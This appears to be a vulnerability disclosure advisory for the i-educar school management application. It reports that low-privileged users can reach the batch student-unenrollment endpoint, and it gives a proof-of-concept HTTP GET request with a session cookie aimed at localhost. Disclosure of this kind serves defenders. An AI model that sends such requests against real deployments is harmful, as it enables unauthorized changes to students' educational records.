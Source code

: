 # Broken Access Control  in `/cancelar-enturmacao-em-lote/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/cancelar-enturmacao-em-lote/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET cancelar-enturmacao-em-lote/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.

<img width="1843" height="533" alt="Pasted image 20250821190942" src="https://github.com/user-attachments/assets/92bd1530-2721-444b-a5d3-6e41acf111f4" />
<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/c240e2b9-ac6a-4e5a-994f-597d5549498e" />

    
2. Send the following request::

```
GET /cancelar-enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/enturmacao-em-lote/15
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch unassign students from classes. And, this user, should not do that.

<img width="1573" height="669" alt="Pasted image 20250821195629" src="https://github.com/user-attachments/assets/49fba1df-e935-48ed-b1ac-1dcf6ea35e4b" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
